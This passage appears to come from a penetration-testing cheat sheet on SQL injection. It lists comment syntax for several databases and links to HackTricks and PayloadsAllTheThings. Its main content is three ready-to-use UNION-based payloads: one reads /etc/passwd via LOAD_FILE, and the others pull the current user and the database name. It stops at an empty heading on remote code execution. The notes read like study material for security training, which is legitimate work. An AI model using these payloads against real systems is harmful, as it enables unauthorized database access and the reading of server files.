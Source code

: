 Comments:

* MySQL

```
#comment

-- comment

/*comment*/

/*! MYSQL Special SQL */
```

* PostgreSQL

```
--comment

/*comment*/
```

* Oracle and SQLite

```
--coment
```

More info and examples about bypass:

* [SQLi-hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
* [SQLi-PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
* [SQLi-OSCP-notes](https://notchxor.github.io/oscp-notes/2-web/sqli/)
* [NoSQLi-PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
* [NoSQLi-hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

Example - Read local file:

````
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
````

Example - Find current user:

````
cn' UNION SELECT 1, user(), 3, 4-- -
````

Example - Current database name:

````
cn' UNION select 1,database(),2,3-- -
````



## RCE (Remote Code Execution)
